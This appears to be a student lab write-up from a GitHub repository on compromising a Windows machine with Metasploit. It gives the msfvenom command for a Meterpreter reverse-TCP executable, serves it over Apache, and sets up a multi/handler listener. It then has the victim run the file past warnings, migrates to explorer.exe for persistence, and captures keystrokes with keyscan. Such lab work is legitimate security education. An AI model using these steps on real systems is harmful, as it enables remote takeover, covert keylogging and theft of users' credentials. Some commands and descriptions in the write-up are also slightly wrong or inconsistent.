 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110609](https://github.com/user-attachments/assets/9244b6df-682a-4925-8437-990b37e7e202)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111401](https://github.com/user-attachments/assets/5469dce6-90fb-4c7c-a969-40777915f820)





copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-07 111757](https://github.com/user-attachments/assets/9b463b17-fee2-4c8c-9bea-0deedb00779a)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 111807](https://github.com/user-attachments/assets/d1a1d860-58b2-4983-953f-80178b2fe09c)



Check the status of apache2
![Screenshot 2025-04-07 115230](https://github.com/user-attachments/assets/542fc8c2-6166-4994-87f7-9cba22527af6)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-11 135734](https://github.com/user-attachments/assets/3e73156c-1895-400b-8864-289c2eca698b)





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/user-attachments/assets/b8a94154-39f4-492d-9328-a12caeb16461)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115329](https://github.com/user-attachments/assets/2fb57481-4077-43d8-80a8-5162251ad7f2)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully

